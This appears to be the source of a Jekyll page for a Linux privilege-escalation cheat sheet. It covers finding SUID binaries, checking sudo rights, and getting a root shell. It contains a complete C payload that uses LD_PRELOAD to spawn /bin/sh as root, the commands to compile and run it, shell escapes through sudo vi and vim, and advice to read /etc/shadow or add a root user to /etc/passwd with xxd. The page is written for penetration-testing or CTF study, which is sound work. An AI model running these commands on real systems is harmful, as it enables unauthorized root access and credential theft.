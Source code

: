 ```yaml
---
layout: topics
page-title: SUID
files-suid: find / -perm -u=s -type f 2>/dev/null
commands: sudo -l
compile-command: gcc -fPIC -shared -o shell.so shell.c -nostartfiles
run-command: sudo LD_PRELOAD=/tmp/shell.so find
---
```


[Click on process, go to SUID section for command](https://gtfobins.github.io/){:target="_blank"}
{% include copy-code-blocks.html text='Print files that have SUID set: ' language='bash' code=page.files-suid %}
{% include copy-code-blocks.html text='List available commands for current user: ' language='bash' code=page.commands %}
If sudo -l displays: env_keep+=LD_PRELOAD --> Compile short c program that will start a shell and run using LD_PRELOAD the program that specified NOPASSWD.

Example program: 
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/sh");
}
```
{% include copy-code-blocks.html text='Compile with: ' language='c' code=page.compile-command %}
{% include copy-code-blocks.html text='To become root, run program that can be run with NOPASSWD with: ' language='c' code=page.run-command %}

vi: 'sudo vi' then ':!sh'

vim: 'sudo vim' then ':!bash'

xxd: Allows to read files and write to files. Can be used to read /etc/shadow, to try to crack user pass or to add an entry to /etc/passwd file to create a new root user
